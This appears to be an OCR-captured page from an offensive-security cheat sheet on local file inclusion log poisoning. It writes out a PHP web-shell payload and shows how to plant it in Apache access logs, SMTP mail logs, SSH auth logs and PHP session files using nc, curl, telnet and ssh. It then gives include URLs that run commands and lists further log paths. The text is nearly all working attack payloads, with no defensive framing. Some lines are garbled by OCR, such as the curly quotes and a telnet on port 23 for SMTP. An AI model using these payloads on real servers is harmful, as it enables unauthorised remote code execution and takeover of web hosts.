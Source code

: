 ### Log Poisoning

- > apache

```
nc ip 80
<?php system($_GET[‘cmd’]); ?>

```

or

1-

```
curl -s <http://ip/index.php> -A '<?php system($_GET[‘cmd’]); ?>'

```

2-

http://ip/index.php?file=/var/log/apache2/access.log&cmd=id

- > SMTP

```
telnet ip 23
MAIL FROM: email@gmail.com
RCPT TO: <?php system($_GET[‘cmd’]); ?>
<http://ip/index.php?file=/var/mail/mail.log&cmd=id>

```

- > SSH

```
ssh \\'<?php system($_GET['cmd']);?>'@ip
<http://ip/index.php?file=/var/log/auth.log&cmd=id>

```

- > PHP session

```
<http://ip/index.php?file=><?php system($_GET["cmd"]);?>
<http://ip/index.php?file=/var/lib/php/sessions/sess_><your_session>&cmd=id

```

- > Other Paths

```
/var/log/nginx/access.log
/var/log/sshd.log
/var/log/vsftpd.log
/proc/self/fd/0-50

```

### Template LFI and directory traversal - Nuclei
